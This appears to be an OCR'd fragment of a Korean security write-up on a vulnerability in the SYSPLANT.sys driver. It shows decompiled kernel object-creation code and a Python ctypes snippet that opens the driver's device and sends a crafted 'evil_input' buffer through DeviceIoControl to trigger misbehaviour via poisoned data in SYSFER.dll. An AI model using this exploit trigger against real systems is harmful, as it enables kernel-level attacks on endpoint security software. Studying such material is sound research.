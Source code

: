 ```
                                    &ObjectBuffer);
        if (!NT_SUCCESS(NtStatus))
            /* Bail out: NtStatus
             */

        memset(ObjectBuffer, 0, PspMemoryReserveObjectSizes[ObjectType]);

        if (ObjectType == IO_COMPLETION) {
            //
            // Perform some ObjectBuffer initialization
            //
            ObjectBuffer[0x0C] = 3;
            ObjectBuffer[0x20] = PspIoMiniPacketCallbackRoutine;
            ObjectBuffer[0x24] = ObjectBuffer;
            ObjectBuffer[0x28] = 0;
        }
        NtStatus = ObInsertObjectEx(ObjectBuffer,
                                    &hOutputHandle,
                                    0,
                                    0xF0003,
                                    0,
                                    0,
                                    0);
        if (!NT_SUCCESS(NtStatus))
            /* Bail out: NtStatus
             */
        *hObject = hOutputHandle;
    }
    return NtStatus;
}
```

#### DeviceIoControl()

```
BOOL WINAPI DeviceIoControl(HANDLE hDevice,
                            DWORD dwIoControlCode,
                            LPVOID lpInBuffer,
                            DWORD nInBufferSize,
                            LPVOID lpOutputBuffer,
                            DWORD nOutBufferSize,
                            LPDWORD lpBytesReturned,
                            LPOVERLAPPED lpOverlapped);
```

파라메터중에서 중요한 것은 `hDevice`, `dwIoControlCode`, `lpInBuffer`, `lpOutputBuffer`.

```
    dwReturn = c_ulong()

    evil_input = "\x41" * 4 + struct.pack("<L", 0x00222084) + "D" * 56

    evil_size = len(evil_input)
    einput = create_string_buffer(evil_input, evil_size)
    eoutput = create_string_buffer("\x00" * 1024, 1024)
    driver_handle = kernel32.CreateFilwW( u"\\\\.\\SYSPLANT", GENERIC_READ | GENERIC_WRITE, 0, None, OPEN_EXISTING, 0, None)
    ...
    kernel32.DeviceIoControl(driver_handle, 0x00222084, 
                                addressof(einput), evil_size, 
                                addressof(eoutput), 1024, 
                                byref(dwReturn), None)
```

이 커맨드가 `SYSPLANT.sys` 의 `DriverDispatcher()` 에 날라가면 `SYSFER.dll` 의 `child_block` 에 담가둔 오염된 데이터때문에 `SYSPLANT.sys` 가 뻘짓을 하게 되는 흐름.
